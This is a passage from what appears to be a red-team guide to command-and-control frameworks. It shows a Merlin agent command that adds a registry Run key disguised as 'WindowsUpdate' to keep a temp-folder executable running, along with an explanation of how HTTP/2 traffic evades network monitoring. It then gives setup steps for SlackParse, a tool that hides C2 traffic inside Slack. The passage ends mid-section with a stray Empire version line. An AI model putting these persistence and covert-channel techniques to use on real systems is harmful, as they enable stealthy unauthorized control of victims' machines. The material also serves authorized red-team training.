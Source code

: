 5. **Persistence Through HTTP/2**:
   ```
   # Established registry run key persistence
   Merlin[agent/b72aef]>> shell reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Users\Administrator\AppData\Local\Temp\update.exe" /f
   
   # Created second agent with different sleep time
   # This provided redundant access with different communication patterns
   ```

This example demonstrates Merlin's effectiveness in environments with sophisticated network monitoring, where traditional C2 protocols might be detected and blocked. The use of HTTP/2 helped the C2 traffic blend with legitimate web traffic, while the configurable sleep and retry parameters allowed for operational security tailored to the environment.

## SlackParse: Chat-based Command and Control

SlackParse is a unique command and control (C2) framework that uses Slack as its communication channel. This allows red teams to control compromised systems using an allowed corporate communication platform, effectively hiding C2 traffic in plain sight.

### Installation

```bash
# Clone the repository
git clone https://github.com/Katamaran/SlackParse.git
cd SlackParse

# Install dependencies
pip3 install -r requirements.txt
```

### Configuration

Before using SlackParse, you need to set up a Slack workspace and create an API token:

1. Create a Slack workspace at slack.com
2. Create a Slack app at api.slack.com/apps
3. Enable the proper permissions (channels:history, channels:read, chat:write)
4. Install the app to your workspace
5. Obtain the OAuth token

Edit the config.py file with your Slack details:

```python
# config.py
SLACK_TOKEN = "xoxb-your-token-here"
CHANNEL_NAME = "c2-channel"
BOT_NAME = "SlackParseBot"
CHECK_FREQUENCY = 5  # seconds
```

### Starting the C2 Server


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire